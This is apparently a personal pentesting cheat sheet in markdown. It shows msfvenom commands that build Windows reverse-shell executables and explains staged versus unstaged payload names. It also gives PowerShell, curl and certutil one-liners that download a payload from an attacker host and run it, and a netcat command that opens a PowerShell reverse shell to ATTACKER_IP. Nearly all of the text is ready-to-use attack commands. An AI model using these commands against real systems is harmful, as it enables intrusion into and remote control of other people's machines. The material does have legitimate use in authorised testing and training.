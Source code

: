 # MSFVENOM - autocrafting
> e.g. searching available payloads
```sh
msfvenom --list payloads | grep "linux/x86/meterpreter"
```

```sh
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```
notice
        -f format
        -o output_file
        -p payload os/arch/payload

shell/reverse_tcp is staged     (sometimes it says meterpreter instead of shell) 
shell_reverse_tcp is unstaged   (sometimes it says meterpreter instead of shell)
notice the /_ between shell reverse
        / is staged
        _ is not staged

> windows example
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<Listen_IP> LPORT=<Listen_Port> -f exe -o shell.exe 
```

# serving files to windows

> invoke web request is simliar to curl; shell is being hosted on attacker with python3
```
"powershell.exe Invoke-WebRequest -Uri http://<LHOST>:8000/shell.exe -OutFile ./shell.exe && .\shell.exe"
```

> Alternatively serve the shell with python on host and pull with curl/cert util on the target
```
curl http://ATTACKER_IP/reverse.exe -o "FULL_PATH"
certutil -urlcache -f http://ATTACKER_IP/FILE_TO_DOWNLOAD
```

## netcat
> nc traditional
```
nc ATTACKER_IP ATTACKER PORT -e powershell                      ; works just like other shells
```


